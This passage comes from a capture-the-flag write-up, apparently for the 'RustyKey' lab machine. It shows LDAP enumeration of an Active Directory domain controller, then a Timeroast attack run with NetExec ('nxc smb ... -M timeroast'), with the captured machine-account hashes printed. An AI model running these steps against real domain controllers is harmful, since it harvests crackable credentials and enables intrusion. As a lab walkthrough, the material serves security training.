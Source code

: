 ```bash
ref: ldap://rustykey.htb/CN=Configuration,DC=rustykey,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

From this result, we are can that there is a leak of `servicePrincipalName` of `DC$`.

```bash
servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/dc.rustykey.htb
```

We see there is [DFSR](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/dfsr/dfsr-overview) service and this one user to folder replication between many server in Active Directory Domain. <br>
If we take a look at the name of this name `Rustykey` which is a very old like outdated, which we can related to weakness cryptography is `RC4 encryption` and if we take a look, this one [article](https://www.tencentcloud.com/techpedia/102471) tell about some disadvantages of this encryption. <br>
&rarr; We can able to attempt to request **Ticket Granting Ticket** and crack the hash.

Has tried with [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) but it failed. <br>
&rarr; Gonna try [Timeroast](https://github.com/SecuraBV/Timeroast) which is trying to abuse the NTP protocol to extract hash from computer and trust account in domain controller. [refs](https://www.secura.com/blog/timeroasting-attacking-trust-accounts-in-active-directory)

But after checking the help menu from `nxc` tool.

```bash
└─$ sudo nxc smb -L    
LOW PRIVILEGE MODULES
...
[*] timeroast                 Timeroasting exploits Windows NTP authentication to request password hashes of any computer or trust account
...
```

There is an option to use `timeroast`.

```bash
└─$ sudo nxc smb 10.129.4.62 -M timeroast
SMB         10.129.4.62     445    10.129.4.62      [*]  x64 (name:10.129.4.62) (domain:10.129.4.62) (signing:True) (SMBv1:False) (NTLM:False)
TIMEROAST   10.129.4.62     445    10.129.4.62      [*] Starting Timeroasting...
TIMEROAST   10.129.4.62     445    10.129.4.62      1000:$sntp-ms$43357735594320124394a208f54939a1$1c0111e900000000000a37d94c4f434cec0d3867ca407e75e1b8428bffbfcd0aec0d82098627c46aec0d82098628042b
TIMEROAST   10.129.4.62     445    10.129.4.62      1103:$sntp-ms$c717212744ad7ef3e2e42704e5b75112$1c0111e900000000000a37da4c4f434cec0d3867cac1fc8fe1b8428bffbfcd0aec0d820a36ca0c28ec0d820a36ca4533
TIMEROAST   10.129.4.62     445    10.129.4.62      1104:$sntp-ms$3a6005d926bc809127ee1fcec374452e$1c0111e900000000000a37da4c4f434cec0d3867c8b49aa6e1b8428bffbfcd0aec0d820a3893ac19ec0d820a3893f799
TIMEROAST   10.129.4.62     445    10.129.4.62      1105:$sntp-ms$ea9d8581f2ceca3580f0322e23e811f3$1c0111e900000000000a37da4c4f434cec0d3867ca9d0635e1b8428bffbfcd0aec0d820a3a7bf46dec0d820a3a7c55bb
TIMEROAST   10.129.4.62     445    10.129.4.62      1106:$sntp-ms$9dcadf13e60f14e13833fac3f6ec348b$1c0111e900000000000a37da4c4f434cec0d3867c8781b9ae1b8428bffbfcd0aec0d820a3c6fcc40ec0d820a3c6ffce8
TIMEROAST   10.129.4.62     445    10.129.4.62      1107:$sntp-ms$1460538d571aa0029c84f3c4745d31cf$1c0111e900000000000a37da4c4f434cec0d3867c9d699d5e1b8428bffbfcd0aec0d820a3dce4dd6ec0d820a3dce7b22
TIMEROAST   10.129.4.62     445    10.129.4.62      1118:$sntp-ms$cf47ad5c2ab4bb2fc718953418f366ad$1c0111e900000000000a37da4c4f434cec0d3867c911d798e1b8428bffbfcd0aec0d820a5101556aec0d820a5101896c
TIMEROAST   10.129.4.62     445    10.129.4.62      1119:$sntp-ms$38aacb1658c3d08a261c971778b36abe$1c0111e900000000000a37da4c4f434cec0d3867caed1da5e1b8428bffbfcd0aec0d820a52dc966eec0d820a52dcd2d4
TIMEROAST   10.129.4.62     445    10.129.4.62      1120:$sntp-ms$878e3b416631b0c3ec8e28782feaff28$1c0111e900000000000a37da4c4f434cec0d3867c85bb609e1b8428bffbfcd0aec0d820a5463caaaec0d820a5463f9a4
```